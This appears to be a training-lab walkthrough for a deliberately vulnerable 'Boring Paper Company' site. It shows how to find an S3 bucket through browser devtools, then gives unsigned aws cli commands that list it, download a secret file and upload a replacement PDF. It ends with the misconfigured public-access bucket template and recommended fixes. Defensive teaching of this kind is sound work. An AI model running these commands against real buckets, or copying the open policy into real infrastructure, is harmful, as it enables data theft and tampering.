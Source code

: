 # Boring Paper Company: Orders Exploit Walkthrough

This webpage is backed by a Container running in ECS as well as serving content to and from S3. When a upload request is made the API forwards the object to S3. The second feature is select content is served to the user from S3 in the case the user needs to retrieve an object. 

Certain applications types may request or server objects to its clients.

However, not all objects may be safe or how can we be sure they are safe for distribution.

---

### Discovery:

Right-click on the web page, and select "Inspect" or "Inspect Element" from the context menu. This will open the browser's developer tools

- Click on the Network tab, in the inspector tools window. 
- Now with the browser developer inspection view open, refresh the page to capture page load requests.
- Expand the 200 status GET method event.
- Discover the backend S3 Endpoint URL where objects are being stored for this application.


The format should be: https://boringpaperco-warehousestack-SomeRandomString.s3.amazonaws.com

![lambda](/images/orders/s3.jpg)

---

### S3 Resource Misconfiguration: Bucket's List access permission set to "Everyone"

You now know that we have a bucket. From the Loadbalancer we see `us-east-1`, so you can attempt to browse the bucket by using the aws cli by running:

```
aws s3 ls  s3://discovered-bucket-name-here/ --no-sign-request --region us-east-1
```

---

### S3 Capture Secret Object: Data Exfiltration

```
aws s3 cp s3://discovered-bucket-name-here/secret.txt --no-sign-request --region us-east-2 secret.html
```

---

### Persistance: S3 Misconfigured bucket PutObject allowed for 'Everyone'

```
aws s3 cp <path-to-file>/somefile.pdf --no-sign-request --region us-east-2 s3://bucketnamehere/downloads/BORING_PAPER_REQUEST_FORM.pdf
```


---


### Explanation 

Here is the underlying Infrastructure code running for S3.

```
WareHouseOrders:
    Type: AWS::S3::Bucket
    Properties:
      PublicAccessBlockConfiguration:
        BlockPublicAcls: false
        BlockPublicPolicy: false
        IgnorePublicAcls: false
        RestrictPublicBuckets: false

  WareHousePolicy:
    Type: 'AWS::S3::BucketPolicy'
    Properties:
      Bucket:
        Ref: 'WareHouseOrders'
      PolicyDocument:
        Version: '2012-10-17'
        Statement:
          - Effect: Allow
            Principal: '*'
            Action: 's3:*'
            Resource:
              Fn::Join:
                - ''
                - - 'arn:aws:s3:::'
                  - Ref: 'WareHouseOrders'
                  - '/*' 
```

---

Let's break down the issues:

**Public Access Configuration:**
    Issue: All four parameters (BlockPublicAcls, BlockPublicPolicy, IgnorePublicAcls, RestrictPublicBuckets) in PublicAccessBlockConfiguration are set to false. This means that public access is not blocked, and anyone with the bucket name can potentially access it.
    Recommendation: Set these parameters to true to block public access and enhance security.

**Bucket Policy Principal:**
    Issue: The bucket policy allows any principal (```*```) to perform any S3 action (s3:```*```) on the specified resources. This includes the ability for random users to place objects in the bucket.
    Recommendation: Restrict access to specific AWS accounts, IAM users, or roles by specifying them in the Principal field. Allowing random users (```*```) to perform any action is a security risk.

---

